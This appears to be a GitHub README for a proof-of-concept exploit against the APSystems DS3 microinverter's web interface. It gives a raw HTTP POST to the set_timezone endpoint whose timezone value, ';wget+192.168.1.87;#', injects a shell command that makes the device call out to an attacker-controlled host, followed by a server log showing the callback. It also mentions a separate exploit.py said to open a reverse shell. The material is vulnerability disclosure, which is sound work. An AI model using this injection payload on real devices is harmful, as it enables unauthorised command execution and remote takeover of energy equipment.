

# APSystems-DS3-RCE-Timezone
APSystems DS3 is vulnerable to command injection in the timezone field



```
POST /index.php/management/set_timezone HTTP/1.1
Host: 192.168.1.99

timezone=;wget+192.168.1.87;#
```


```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.99 - - [11/Nov/2022 14:28:04] "GET / HTTP/1.1" 200 
```

See `exploit.py` for an exploit to obtain a reverse shell
